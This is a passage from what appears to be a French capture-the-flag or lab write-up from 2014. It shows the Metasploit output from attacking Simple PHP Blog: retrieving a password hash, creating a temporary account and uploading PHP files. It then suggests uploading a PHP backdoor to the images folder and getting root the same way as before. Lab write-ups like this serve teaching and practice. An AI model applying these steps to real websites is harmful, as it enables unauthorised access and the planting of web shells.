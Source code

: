 
Ce fut court.  

Alternative mega-happy ending
-----------------------------

*Metasploit* dispose d'un module pour le *Simple PHP blog* que l'on aurait pu découvrir avec `dirb`.  

L'exploit ne fonctionne qu'à moitié dans notre cas puisqu'il parvient à changer le fichier `password.txt` et uploader un script PHP, mais le payload ne semble pas aller plus loin (pas de session créée) :  

```
msf exploit(sphpblog_file_upload) > exploit

[*] Started bind handler
[*] Successfully retrieved hash: $1$A.rLr8lh$50XjPnJ0Fw3VWm6XWDMXy1
[*] Successfully removed /config/password.txt
[*] Successfully created temporary account.
[*] Successfully logged in as hFsAbm:Mrt1lu
[*] Successfully retrieved cookie: r1hu0c5h3o125ta5ugk8erl396
[*] Successfully uploaded FIK9uKSCSfKkZvRP2ecB.php
[*] Successfully uploaded hHzAQ3dy4VqqB2WuCJHm.php
[*] Successfully reset original password hash.
[*] Successfully removed /images/FIK9uKSCSfKkZvRP2ecB.php
[*] Calling payload: /images/hHzAQ3dy4VqqB2WuCJHm.php
[*] Successfully removed /images/hHzAQ3dy4VqqB2WuCJHm.php
```

Il suffit de reprendre les identifiants nouvellement créés, de se connecter et d'uploader nous même une backdoor PHP dans le dossier `images`.  

Pour l'accès root, on procédera de la même façon que précédemment.  


*Published April 21 2014 at 09:40*
